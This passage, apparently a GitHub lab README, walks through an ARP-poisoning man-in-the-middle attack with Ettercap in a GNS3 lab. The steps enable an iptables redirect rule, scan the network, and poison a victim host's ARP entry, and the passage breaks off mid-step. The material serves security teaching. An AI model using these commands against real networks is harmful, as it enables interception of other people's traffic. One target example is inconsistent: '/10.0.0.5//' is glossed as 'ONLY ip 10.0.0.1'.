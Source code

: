 ## ARP Poisoning example with Ettercap
### Settings:
 * **Attacker:** debian machine
 * **Victim:** ubuntu-1 host machine
 * **Router:** cisco-7200 image (R1 machine)
 * **Switch:** cisco-3745 image (SW1 machine)
 * **Other actors:** ubuntu-2 host machine

### Steps:
* Run the GNS3 lab
* Connect to **R1** and check the current IP/MAC assignment using the followng command

        show ip arp        
* Connect to the **attacker machine**
* Install **ettercap**

        sudo apt update
        sudo apt install ettercap-text-only
* Edit the file `/etc/ettercap/etter.conf`

        sudo pico /etc/ettercap/etter.conf
* Uncomment the following line by removing the `#` at the beginning of the string

  * Before:

        #redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
  * After:

        redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
* Execute `ettercap` command in order to scan all the network 
  * `-T:` **select the text only GUI**

        sudo ettercap -T
  * Press `spacebar` to enable/disable packets view
  * Press `l` (lowercase `L`) to show information about discovered devices in the network
* Choose the IP and MAC address of the machine you want to attack (we will choose the ip addres of the **ubuntu-1 host** for simplicity)
* Stop `ettercap` pressing `q` 
* Run (again) `ettercap` in order to start with the **MITM** attack based on ARP Poisoning
  * `-M:` perform a mitm attack. Requires an additional argument useful to specify the **attack type**
  * `<ATTACK_TYPE>:` **ARP**, DHCP, ICMP, etc (see `man ettercap`) 
  * `<VICTIM_TARGET>:` is in the form `MAC/IPs/IPv6/PORTs`. If you want you can omit any of its parts and this will represent an ANY in that part, e.g.,
    
    `/10.0.0.5//` means **ANY mac address**, **ONLY ip 10.0.0.1**, **ANY IPv6** and **ANY port**

        sudo ettercap -T -M <ATTACK_TYPE> <VICTIM_TARGET>

* Connect again to **R1** and check the current IP/MAC assignment using the followng command

        show ip arp
* The pair `<ip,mac>` related to the ip address of our **Victim** has been changed
* Connect to another **ubuntu host machine** (ubuntu-2, for example) and run the following command
